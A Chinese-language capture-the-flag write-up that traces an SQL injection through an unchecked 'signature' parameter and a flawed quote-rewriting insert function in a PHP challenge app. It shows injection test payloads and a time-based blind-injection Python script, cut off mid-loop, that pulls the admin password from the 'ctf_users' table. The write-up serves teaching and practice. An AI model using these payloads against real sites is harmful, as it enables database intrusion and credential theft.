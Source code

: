 ```php

<?php
}

?>
```

在user.php中，在publish页面传入的signature参数没有做校验，导致signature可控

![image-20250318201640284](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182016489.png)

查看config.php中的insert函数，首先调用get_column()将$values数组用','拼接，在通过preg_replace()将两个匹配的'（中间不包含，）替换为'

![image-20250318203023350](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182030430.png)                                            

![image-20250318203031025](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182030081.png)

我们可以构造1`使得

```
`id`,`name`,`1``,`mood`   ==>  'id','name','1'`,'mood'
```

提交

```
1`
```

![image-20250318203358157](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182033200.png)

我们提交

```
1`,1)#
```

提示ok，说明sql注入存在

![image-20250318203448106](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182034153.png)

我们从user.php中的register函数获得表名和列名

```php
@$ret = $db->insert(array('username','password','ip','is_admin','allow_diff_ip'),'ctf_users',array($username,$password,get_ip(),'0','1')); //No one could be admin except me
```

python脚本获取admin密码

```py

import requests

url="http://ce283c4e-25f1-47a3-b00f-465788a3662a.node4.buuoj.cn:81/index.php?action=publish"
cookie = {"PHPSESSID":"t5rculf6qdcd7ksgif8s8e4sj1"}

k="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
flag=""

for i in range(50): 
    for j in k:
        j = ord(j)
        data={
            'mood':'0',
            'signature':'1`,if(ascii(substr((select password from ctf_users where username=`admin`),{},1))={},sleep(3),0))#'.format(i,j)
            }
        try:
            r=requests.post(url,data=data,cookies=cookie,timeout=(2,2))
```